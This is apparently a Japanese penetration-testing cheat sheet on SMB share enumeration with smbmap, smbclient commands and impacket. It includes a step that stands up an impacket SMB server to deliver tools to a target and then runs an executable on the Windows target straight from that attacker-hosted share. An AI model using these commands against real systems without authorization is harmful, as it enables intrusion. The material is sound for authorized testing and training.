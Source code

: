 ### smbmap
ドメイン全体のsamba共有ドライブを列挙するために使用。
```
smbmap -H 10.10.10.1
smbmap -u <user> -p <password> -H 10.10.10.1
smbmap -H 10.10.10.1 -d <domain> -u <user> -p <password>
```
```
# 再帰的に共有フォルダを列挙
smbmap -R <共有フォルダ> -H 10.10.10.1
smbmap -R Replication -H 10.10.10.1
```

### smbコマンド
|  コマンド  |  説明  |
| ---- | ---- |
|  dir  |  リスト表示  |
|  exit |  終了  |
|  get  |  取得  |
|  mget |  まとめて取得  |
|  mkdir  |  ディレクトリ作成  |
|  put  |  転送  |
|  mput  |  まとめて転送  |
|  lcd  |  ローカル側のディレクトリを移動  |
|  mdir  |  ディレクトリ削除  |


### impacket
ネットワークプロトコルを操作するためにPythonクラスのコレクション。  
SMB1-3やMSRPCなどのプロトコル実装自体を提供することに重点を置いている。  
ツールを利用する以外にもよくexploitに使われているので、インストールしておく必要がある。
```
git clone https://github.com/SecureAuthCorp/impacket.git
pip install .
```
#### impacket-smbclient
```
/usr/share/doc/python3-impacket/examples/smbclient.py username@10.10.10.1
```

#### impacket-smbserver
対象サーバにツールを送り込む際に使用。  
主にnetcatもpowershellも使えないようなときに使う。  
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py temp .
```
```
C:\WINDOWS\system32>\\<smbserverを立ち上げたIPアドレス>\temp\whoami.exe
```
